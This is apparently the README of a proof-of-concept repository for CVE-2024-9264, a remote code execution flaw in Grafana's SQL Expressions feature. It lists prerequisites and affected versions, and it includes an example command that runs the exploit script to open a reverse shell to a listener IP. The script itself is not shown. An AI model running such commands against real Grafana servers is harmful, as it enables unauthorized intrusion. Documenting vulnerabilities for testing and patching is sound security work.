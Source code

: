 # CVE-2024-9264-RCE-Exploit in Grafana via SQL Expressions

## Description
Proof Of Concept for Remote Code Execution in Grafana (CVE-2024-9264)

This repository contains a Python script that exploits a Remote Code Execution (RCE) vulnerability in Grafana's SQL Expressions feature. 
By leveraging insufficient input sanitization, this exploit allows an attacker to execute arbitrary shell commands on the server.
This is made possible through the shellfs community extension, which can be installed and loaded by an attacker to facilitate command execution.

## Prerequisites
- authenticated Grafana user with `Viewer` permissions or higher
- DuckDB binary must be installed and accessible through Grafana's PATH

## Impacted version
Grafana >= v11.0.0 (all v11.x.y are impacted)

## Usage
```
python3 poc.py [--url <target>] [--username <username>] [--password <password>] [--reverse-ip <IP>] [--reverse-port <PORT>]
```
![14](https://github.com/user-attachments/assets/f62d946d-0195-45db-b28e-0cdb6c94985c)

## Example
```
python poc.py --url http://127.0.0.1:3000 --username eviluser --password eviluser --reverse-ip 10.10.1.41 --reverse-port 9001
```

## Disclaimer

This script is intended for educational purposes and for use in controlled environments where you have permission to test the security of the system. Misuse of this tool could lead to legal consequences.

## More 
https://zekosec.com/blog/file-read-grafana-cve-2024-9264/

https://grafana.com/blog/2024/10/17/grafana-security-release-critical-severity-fix-for-cve-2024-9264/

